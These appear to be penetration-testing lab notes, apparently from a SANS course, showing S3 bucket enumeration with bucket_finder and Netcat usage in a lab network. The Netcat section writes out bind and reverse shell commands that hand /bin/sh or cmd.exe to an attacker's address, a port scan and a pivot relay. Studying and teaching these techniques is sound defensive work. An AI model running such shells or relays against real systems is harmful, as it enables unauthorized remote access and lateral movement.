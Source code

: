 __Bucket Finder__

```bash
ec504@slingshot:~$ bucket_finder.rb ~/labs/s3/shortlist.txt 
Bucket found but access denied: mybucket
Bucket found but access denied: mybucket2
Bucket does not exist: sans

bucket_finder.rb ~/labs/s3/bucketlist.txt | tee bucketlist_1.output.txt

grep -v "does not exist" bucketlist_1.output.txt 
Bucket found but access denied: certificates
Bucket found but access denied: cust
Bucket found but access denied: dev
Bucket Found: movies ( http://s3.amazonaws.com/movies )
	<Public> http://s3.amazonaws.com/movies/movies.json
Bucket found but access denied: prod

```

## 3.6 Netcat

```bash
# Creates a NC listener on port 2222 and executes /bin/sh upon connection
nc -l -p 2222 -e /bin/sh

# Setup reverse shell listener on attack box
nc -lvnp 2222

# Pass all output of cmd.exe execution across network to attacker
nc 10.10.75.1 2222 -e cmd.exe

# Try to connect to 172.x.x.x over port 80 with 3 sec timeout and zero I/O mode
nc -vvv -z -w3 172.30.0.55 80
# Firewall blocking inbound connections
172.30.0.55: inverse host lookup failed: Unknown server error
(UNKNOWN) [172.30.0.55] 80 (http) : Connection timed out
 sent 0, rcvd 0
# Firewall not blocking a pivot system running same command
172.30.0.55: inverse host lookup failed: Unknown server error : No such file or directory
(UNKNOWN) [172.30.0.55] 80 (?) open

# Setup a relay through the pivot host
nc -l -p 8080 < namedpipe | nc 172.30.0.55 80 > namedpipe

# Make a connection to pivot that will get routed to target
sec504@slingshot:~$ curl http://172.30.0.50:8080
<html>

	You should write this password
	down for the CTF: Carolina1

</html>
```

NC can also be used for SMB relays by just listening on port 445 and using `sudo` since Linux only allows `root` to listen on ports lower than `1024`.
